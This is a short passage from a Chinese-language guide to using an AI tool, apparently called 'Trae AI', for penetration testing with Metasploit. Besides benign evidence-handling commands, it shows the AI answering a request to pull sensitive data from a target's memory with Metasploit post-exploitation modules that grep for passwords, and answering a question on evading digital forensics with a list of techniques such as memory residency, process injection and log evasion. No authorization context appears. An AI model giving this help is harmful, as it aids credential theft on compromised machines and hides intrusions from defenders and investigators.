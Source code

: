 **Trae AI 建議的最佳實踐：**
```
# 創建證據目錄結構
mkdir -p /evidence/{screenshots,files,logs,reports}

# 生成哈希值驗證完整性
sha256sum collected_data.zip > collected_data.zip.sha256

# 加密敏感數據
gpg --cipher-algo AES256 --compress-algo 1 --symmetric collected_data.zip
```

## 高級技巧

### 21. 內存分析

**用戶提問：**
```
從目標系統內存中提取敏感信息
```

**Trae AI 操作流程：**
```
# 內存轉儲
use post/windows/gather/memory_grep
set SESSION 1
set PATTERN "password"
run

# 進程內存分析
use post/windows/gather/enum_processes
set SESSION 1
run
```

### 22. 反取證技術

**用戶提問：**
```
如何避免被數字取證工具檢測？
```

**Trae AI 建議的技術：**
1. **內存駐留**：避免在磁盤上留下文件
2. **加密通信**：使用 HTTPS payload
3. **時間混淆**：隨機化活動時間
4. **進程注入**：隱藏在合法進程中
5. **日誌規避**：避免觸發安全事件

## 故障排除

### 23. Session 管理問題
